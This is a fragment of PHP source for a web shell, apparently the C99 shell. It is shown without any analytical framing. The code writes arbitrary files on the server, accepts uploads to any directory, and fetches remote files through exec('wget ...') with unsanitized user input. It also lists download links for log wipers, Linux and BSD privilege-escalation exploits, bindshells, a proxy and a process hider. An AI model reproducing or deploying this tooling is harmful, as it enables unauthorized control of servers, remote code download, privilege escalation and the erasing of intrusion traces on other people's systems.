   echo(str_replace($bad, $good, $content)."\n");
  echo("&lt;/textarea&gt;");
  echo("&lt;input name='fileact' type='submit' value='Save'&gt;");
  echo("&lt;input name='fileact' type='submit' value='Delete'&gt;");
  echo("&lt;input name='fileact' type='submit' value='Download'&gt;");
  echo("&lt;/form&gt;");
}
function edit($file, $contents){ // File edit function
  style();
  $handle = fopen($file, 'w');
  fwrite($handle, $contents);
  fclose($handle);
  echo("Saved file.&lt;br&gt;&lt;br&gt;");
  echo("&lt;a href='?act=files'&gt;Go back&lt;/a&gt;");
}
function upload(){ // Uploading frontend function
  global $curdir;
  style();
  echo("&lt;form name='files' enctype='multipart/form-data' method='POST'&gt;
  &lt;b&gt;Output Directory&lt;/b&gt;&lt;br&gt;
  &lt;input type='text' name='loc' size='65' value='" . $curdir . "'&gt;&lt;br&gt;&lt;br&gt;
  &lt;b&gt;Remote Upload&lt;/b&gt;&lt;br&gt;
  &lt;input type='text' name='rem' size='65'&gt;
  &lt;input type='submit' value='Grab'&gt;&lt;br&gt;&lt;br&gt;
  &lt;b&gt;Local File Upload&lt;/b&gt;&lt;br&gt;
  &lt;input name='up' type='file' size='65'&gt;
  &lt;input type='submit' value='Upload'&gt;
  &lt;/form&gt;&lt;br&gt;");
  if($_POST['rem']){grab($_POST['rem']);}
  if($_FILES['up']){up($_FILES['up']);}
}
function up($up){ // Uploading backend function
  style();
  $updir = $_POST['loc'];
  move_uploaded_file($up["tmp_name"], $updir . "/" . $up["name"]);
  die("File has been uploaded.");
}
function grab($file){ // Uploading backend function
  style();
  $updir = $_POST['loc'];
  $filex = array_pop(explode("/", $file));
  if(exec("wget $file -b -O $updir/$filex")){die("File has been uploaded.");}
  else{die("File upload failed.");}
}
function tools(){ // Useful tools function
  global $curdir;
  style();
  $tools = array(
  "--- Log wipers ---"=&gt;"1",
  "Vanish2.tgz"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/vanish2.tgz",
  "Cloak.c"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/cloak.c",
  "gh0st.sh"=&gt;"http://packetstormsecurity.org/UNIX/penetration/log-wipers/gh0st.sh",
  "--- Priv Escalation ---"=&gt;"2",
  "h00lyshit - Linux 2.6 ALL"=&gt;"http://someshit.net/files/xpl/h00lyshit",
  "k-rad3 - Linux &lt;= 2.6.11"=&gt;"http://someshit.net/files/xpl/krad3",
  "raptor - Linux &lt;= 2.6.17.4"=&gt;"http://someshit.net/files/xpl/raptor",
  "rootbsd - BSD v?"=&gt;"http://someshit.net/files/xpl/rootbsd",
  "--- Bindshells ---"=&gt;"3",
  "THC rwwwshell-1.6.perl"=&gt;"http://packetstormsecurity.org/groups/thc/rwwwshell-1.6.perl",
  "Basic Perl bindshell"=&gt;"http://packetstormsecurity.org/groups/synnergy/bindshell-unix",
  "--- Misc ---"=&gt;"4",
  "MOCKS SOCKS4 Proxy"=&gt;"http://superb-east.dl.sourceforge.net/sourceforge/mocks/mocks-0.0.2.tar.gz",
  "xps.c (proc hider)"=&gt;"http://packetstormsecurity.org/groups/shadowpenguin/unix-tools/xps.c");

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"